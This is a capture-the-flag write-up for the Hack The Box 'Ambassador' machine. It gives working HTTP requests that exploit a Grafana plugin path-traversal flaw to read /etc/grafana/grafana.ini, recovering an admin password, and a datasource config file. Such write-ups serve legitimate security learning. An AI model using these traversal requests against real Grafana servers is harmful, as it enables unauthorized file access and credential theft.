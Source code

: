Anonymous access or access with default credentials (tried a few), is not possible. Skipping for now, revisiting when having obtained valid credentials.

## Initial Foothold

As discovered during enumeration, it is possible to read arbitrary files from the filesystem by exploiting the vulnerable Grafana instance on port 3000.

The admin password for Grafana can be retrieved by accessing `/etc/grafana/grafana.ini` as follows:

Request:
```http
GET /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/grafana/grafana.ini HTTP/1.1
Host: ambassador.htb:3000
Connection: close
```

Response:
```http
HTTP/1.1 200 OK
...
Connection: close

#################################### Security ####################################
[security]
# disable creation of admin user on first start of grafana
;disable_initial_admin_creation = false

# default admin user, created on startup
;admin_user = admin

# default admin password, can be changed before first start of grafana,  or in profile settings
admin_password = messageInABottle685427
```

Logging in as admin with `admin:messageInABottle685427` is possible.

There is a datasource configured, but we cannot see the password via UI:

{% include image-center.html url="/assets/htb-ambassador/2.png" alt="Info Card" %}

The Grafana [documentation](https://grafana.com/docs/grafana/v9.3/administration/provisioning/#data-sources) states that datasource yaml files can be placed inside the `provisioning/datasources` directory. This directory is most possibly inside `/etc/grafana` as described [here](https://grafana.com/docs/grafana/latest/administration/provisioning/). 

The corresponding request for reading the `mysql.yaml` datasource file looks as follows:
```http
GET /public/plugins/alertlist/..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/grafana/provisioning/datasources/mysql.yaml HTTP/1.1
Host: ambassador.htb:3000
Connection: close
```

Response:
```http
HTTP/1.1 200 OK
...
Connection: close

apiVersion: 1

datasources:
 - name: mysql.yaml 
   type: mysql
   host: localhost
   database: grafana
   user: grafana
```